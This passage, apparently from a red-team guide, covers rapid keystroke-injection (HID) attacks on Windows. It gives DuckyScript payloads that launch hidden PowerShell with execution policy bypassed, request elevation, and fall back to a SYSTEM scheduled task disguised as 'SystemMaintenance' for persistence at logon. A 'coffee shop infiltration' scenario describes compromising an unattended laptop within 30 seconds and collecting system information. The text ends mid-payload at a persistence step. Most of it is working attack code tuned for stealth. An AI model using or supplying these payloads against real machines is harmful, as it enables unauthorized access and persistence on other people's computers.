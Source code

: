 #### **2. Stealth Optimization**
Minimizing detection while maximizing speed:

```txt
# Stealth rapid access
ATTACKMODE HID
DEFAULT_DELAY 25  # Ultra-fast execution
DELAY 500         # Minimal system recognition time

# Hidden execution
MOD r
DELAY 50
STRING powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command "Start-Process powershell -Verb RunAs -WindowStyle Hidden"
ENTER
DELAY 300
```

#### **3. Fallback Mechanisms**
Ensuring success even if primary methods fail:

```txt
# Primary method
STRING Start-Process powershell -Verb RunAs
ENTER
DELAY 200

# Fallback method (if UAC blocks)
STRING cmd /c "schtasks /create /tn 'SystemMaintenance' /tr 'powershell.exe -WindowStyle Hidden' /sc onlogon /ru System /f"
ENTER
DELAY 100
```

---

## The Red Team Perspective

### Real-World Rapid Access Scenarios

#### **Scenario 1: The Coffee Shop Infiltration**
**Objective:** Gain access to a target's laptop in a public space
**Time Constraint:** 30 seconds (before target returns)
**Technique:** Rapid HID device insertion and execution

```txt
# Coffee shop rapid access payload
ATTACKMODE HID
DEFAULT_DELAY 25
DELAY 500

# Quick admin access
MOD r
DELAY 50
STRING powershell -WindowStyle Hidden -Command "Start-Process powershell -Verb RunAs -WindowStyle Hidden"
ENTER
DELAY 300

# Rapid data collection
STRING Get-ComputerInfo | ConvertTo-Json | Out-File "$env:APPDATA\info.json"
ENTER
DELAY 50

# Quick persistence
```